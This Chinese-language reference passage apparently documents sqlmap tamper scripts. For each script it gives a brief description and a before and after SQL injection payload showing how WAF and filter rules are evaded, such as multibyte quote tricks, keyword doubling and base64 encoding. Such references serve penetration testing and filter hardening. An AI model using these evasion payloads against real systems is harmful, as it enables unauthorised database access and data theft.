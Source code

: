 ### **bluecoat.py**

适用数据库：Blue Coat SGOS  
测试通过数据库：MySQL 5.1,、SGOS  
作用：在 sql 语句之后用有效的随机空白字符替换空格符，随后用`LIKE`替换`=`  
使用脚本前：`tamper('SELECT id FROM users where id = 1')`  
使用脚本后：`SELECT%09id FROM users where id LIKE 1`

### **unmagicquotes.py**

适用数据库：ALL  
作用：用一个多字节组合`%bf%27`和末尾通用注释一起替换空格  
使用脚本前：`tamper("1' AND 1=1")`  
使用脚本后：`1%bf%27 AND 1=1--`

## 其他脚本

### **base64encode.py**

适用数据库：ALL  
作用：替换为 base64 编码  
使用脚本前：`tamper("1' AND SLEEP(5)#")`  
使用脚本后：`MScgQU5EIFNMRUVQKDUpIw==`

### **nonrecursivereplacement.py**

适用数据库：ALL  
作用：作为双重查询语句，用双重语句替代预定义的 sql 关键字（适用于非常弱的自定义过滤器，例如将 select 替换为空）  
使用脚本前：`tamper('1 UNION SELECT 2--')`  
使用脚本后：`1 UNIOUNIONN SELESELECTCT 2--`

### **unionalltounion.py**

适用数据库：ALL  
作用：将`union allselect` 替换为`unionselect`  
使用脚本前：`tamper('-1 UNION ALL SELECT')`  
使用脚本后：`-1 UNION SELECT`

### **securesphere.py**

适用数据库：ALL  
作用：追加特定的字符串  
使用脚本前：`tamper('1 AND 1=1')`  
使用脚本后：`1 AND 1=1 and '0having'='0having'`

### **sp_password.py**

适用数据库：MSSQL  
作用：从 T-SQL 日志的自动迷糊处理的有效载荷中追加 sp_password  
使用脚本前：`tamper('1 AND 9227=9227-- ')`  
使用脚本后：`1 AND 9227=9227-- sp_password`
